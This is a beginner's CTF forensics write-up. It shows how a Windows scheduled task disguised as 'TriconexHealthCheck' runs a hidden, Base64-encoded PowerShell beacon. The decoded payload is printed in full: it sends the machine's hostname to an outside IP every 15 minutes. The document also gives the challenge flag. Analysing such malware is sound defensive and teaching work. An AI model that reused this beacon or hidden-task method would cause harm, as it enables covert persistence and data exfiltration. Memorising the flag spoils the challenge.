

# Clockwork Beacon [3.8]

## Challenge

<p align="center">
  
</p>

## Solution

This writeup assumes you are new to CTFs and digital forensics. We will walk through how to find malware that is programmed to "phone home" on a schedule, how to read Windows Scheduled Tasks, and how to decode the payload to find the flag.

### 1. Challenge Overview

The challenge description provides the core clues:
> *"Network logs showed periodic outbound connection attempts at regular intervals - like clockwork. The machine was reaching out to something on a schedule. The mechanism is still configured."*

**Breakdown of the clues:**
*   **"Periodic outbound connections" / "Like clockwork"**: This is known as **Beaconing**. Malware often checks in with an attacker's Command & Control (C2) server every few minutes to say "I'm still here and ready for commands."
*   **"The mechanism is still configured"**: The schedule or configuration file for this beacon is still sitting on the disk.

To make a script run on a schedule, Windows uses **Scheduled Tasks**. We need to find the task responsible for this beacon.

### 2. Step 1 — Hunting for Scheduled Tasks

First, ensure you are in the extracted VM directory:
```bash
cd ~/Downloads/PETCTF2026PrelimWriteup/Kerteh/1\ -\ Infected\ Package/extracted_vm
```

Windows stores Scheduled Tasks as XML files inside `C:\Windows\System32\Tasks\`. Let's list that directory to see if the attacker created a custom task:

```bash
ls -la Windows/System32/Tasks/
```

**Output:**
```text
drwxrwxr-x   4 kali kali    4096 Nov 11 20:45 Microsoft
-rw-rw-r--   1 kali kali    4502 Nov 11 04:55 TriconexHealthCheck
```

We see a custom task named **`TriconexHealthCheck`**. This is highly suspicious. It looks like a legitimate industrial control system check, but it's the perfect disguise for malware.

### 3. Step 2 — Analyzing the Task XML

Let's read the XML file to see exactly what this task is doing:

```bash
cat Windows/System32/Tasks/TriconexHealthCheck
```
*(Note: The output might start with a weird character. This is because the file is encoded in UTF-16. Don't worry, the text is still readable).*

Look closely at the XML structure:
*   **`<Triggers>`**: It has `<LogonTrigger>`. This means the moment a user logs in, the beacon starts.
*   **`<Actions>`**: This is where the actual command is executed.

Inside the `<Arguments>` tag, we see:
```xml
<Arguments>-WindowStyle Hidden -ep Bypass -enc dwBoAGkAbABlACgAJAB0AHIAe... (truncated)</Arguments>
```

The attacker is using `powershell.exe` with the `-enc` flag to run a Base64-encoded script. This hides the actual code from casual observers.

### 4. Step 3 — Decoding the Beacon Payload

PowerShell uses **Base64 encoded UTF-16LE** text. We have to decode it and convert it to standard UTF-8 to read it. 

Copy the long string after `-enc ` and run this exact command in your terminal:

```bash
echo "dwBoAGkAbABlACgAJAB0AHIAdQBlACkAewB0AHIAeQB7ACQAYgA9AGgAbwBzAHQAbgBhAG0AZQA7AEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAOgAvAC8AMQA4ADUALgAxADQAMQAuADIANwAuADkAMwA6ADgANAA0ADMALwBiAGUAYQBjAG8AbgAiACAALQBNAGUAdABoAG8AZAAgAFAATwBTAFQAIAAtAEIAbwBkAHkAIAAkAGIAIAAtAEUAQQAgAFMAdABvAHAAfQBjAGEAdABjAGgAewB9ADsAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAAOQAwADAAfQAgACMAIABQAEUAVABSAE8ATgBBAFMAewBTAEMASAAzAEQAVQBMADMARABfAEIAMwA0AEMAMABOAH0A" | base64 -d | iconv -f UTF-16LE -t UTF-8
```

**Decoded Output:**
```powershell
while($true){try{$b=hostname;Invoke-WebRequest -Uri "http://185.141.27.93:8443/beacon" -Method POST -Body $b -EA Stop}catch{};Start-Sleep 900} # PETRONAS{SCH3DUL3D_B34C0N}
```

### What does the malware do?
*   `while($true)`: It runs forever in an infinite loop.
*   `$b=hostname`: It gets the computer's name.
*   `Invoke-WebRequest`: It sends a POST request containing the hostname to the attacker's server (`185.141.27.93`) every 900 seconds (15 minutes).
*   This is the "Clockwork" beacon.

Just like in previous challenges, the author left the flag hidden as a comment at the very end of the script.

### 5. The Flag

**`PETRONAS{SCH3DUL3D_B34C0N}`**

### 6. Cheat Sheet — Commands Used

```bash
# 1. Navigate to the extracted VM
cd ~/Downloads/PETCTF2026PrelimWriteup/Kerteh/1\ -\ Infected\ Package/extracted_vm

# 2. List Scheduled Tasks
ls -la Windows/System32/Tasks/

# 3. Read the malicious task
cat Windows/System32/Tasks/TriconexHealthCheck

# 4. Decode the PowerShell Base64 payload
echo "BASE64_STRING_HERE" | base64 -d | iconv -f UTF-16LE -t UTF-8
```

## Flag

```text
PETRONAS{SCH3DUL3D_B34C0N}
```
